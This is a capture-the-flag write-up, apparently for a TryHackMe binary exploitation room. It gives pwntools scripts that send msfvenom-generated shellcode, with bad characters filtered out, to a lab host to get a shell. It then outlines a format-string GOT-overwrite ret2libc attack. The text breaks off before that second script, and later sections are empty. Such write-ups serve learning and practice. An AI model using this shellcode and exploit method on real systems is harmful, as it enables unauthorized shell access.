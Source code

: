 # TryPwnMe Two

### TryExecMe 2
This first binary executes whatever shellcode we provide in input. <br />
![image](https://github.com/user-attachments/assets/a2bd5ffd-89d0-4fc9-b2ad-f1ab985c565c)<br />
The problem is that it calls a function called `forbidden` that checks if the shellcode is made of forbidden characters. If so, the binary prints "Forbidden spell detected!".<br />
So of course this simple script doesn't work:

    from pwn import *
    
    p = process("./tryexecme2")
    
    shellcode = shellcode = asm(shellcraft.sh())
    
    p.sendline(shellcode)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/48491203-eebf-4a7b-8235-cb92ce6fe4b6)<br />
That's because `shellcraft` obviously uses some forbidden characters, otherwise it would be too easy. So I think I need to use `msfvenom`. I analyzed the binary with IDA to find what are the bad characters, and at the end I generated the payload with msfvenom: `msfvenom -p linux/x64/exec CMD=/bin/sh -b '\x80\x34\x7e\x0f\x04\xcd' -f python`.<br />
The final script to exploit the remote machine is:

    from pwn import *
    
    #p = process("./tryexecme2")
    
    ip = "10.10.136.230"
    port = 5002
    
    p = remote(ip,port)
    
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d"
    buf += b"\x05\xef\xff\xff\xff\x48\xbb\x1c\x2e\x8e\xb1\x27"
    buf += b"\x5c\x2f\xb9\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
    buf += b"\xff\xe2\xf4\x54\x96\xa1\xd3\x4e\x32\x00\xca\x74"
    buf += b"\x2e\x17\xe1\x73\x03\x7d\xdf\x74\x03\xed\xe5\x79"
    buf += b"\x0e\xc7\xb1\x1c\x2e\x8e\x9e\x45\x35\x41\x96\x6f"
    buf += b"\x46\x8e\xe7\x70\x08\x71\xd3\x27\x76\x81\xb4\x27"
    buf += b"\x5c\x2f\xb9"
    
    p.sendline(buf)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/16b687cf-7dfb-483b-8980-7f6e05ced814)<br />

### Not Specified 2
Checksec shows the following defense measures:<br />
![Screenshot 2025-03-25 103655](https://github.com/user-attachments/assets/193bc2cb-5209-4641-a0d1-671cac146ede)<br />
This is how IDA disassembles the binary:<br />
![image](https://github.com/user-attachments/assets/bb63c6a3-058c-4e67-9c91-652318ae4808)<br />
As you can see, the stack is 528 bytes long, but the `read` function only takes 512 bytes in input. This means that technically I can't do any buffer overflow. What I can do though is a format string exploit. <br />
How can a format string vulnerability lead to a full shell on the target system? The lack of defense mechanisms can allow it:
- Partial RELRO --> the GOT is writable during execution.
- No PIE --> the code of the binary ALWAYS starts at `0x3fe000`.
- Not Stripped --> easier to find GOT entries.
<br /><br />
The main idea of this attack is:
1) use format string to leak addresses from the stack. Inside the stack I want to find an address of a function from the libc library. Notice that I don't need to do all of this in a single execution. The stack layout is going to be the same at every execution, so I can just execute the program multiple times until I find at which offset the stack contains a libc function.
2) Once I know the offset, I can dinamically compute the base of the libc library by subtracting the known offset of the leaked function from the leaked address.
3) Since the binary is not PIE, the address of the GOT table is well known, and I can use the format string vulnerability to overwrite the entry of the `exit` function in the GOT with the address of `main`, so that I have another execution to send a second payload, while the base of the libc is still the same! you know where this is going..
4) Now I compute the addresses of `system` and and perform a ret2libc attack by overwriting the entry point of `exit` in the GOT with the address of `system`, and sending `/bin/sh` as an argument.
<br />
So let's start with the first step. After some trial end error, you'll find out that the third element of the stack contains an address from the libc:<br />
![Screenshot 2025-03-26 111122](https://github.com/user-attachments/assets/eff6f398-d4fe-4fee-bd8a-8ddb07241a09)<br />
![Screenshot 2025-03-26 111252](https://github.com/user-attachments/assets/9396ae16-db6a-4f46-8df3-84f8f1de2eae)<br />
This means that the third address of the stack is 23 bytes away from the `write()` fucntion of the libc library. Good, so now I know how to compute the address of libc.


Now I want to do a test. I want to see if I can overwrite the entrypoint of the `exit` fucntion with the address `main`, so that I can execute the program again and drop the second payload. The following script seems to do the job.



### Try a Note

### Slow Server
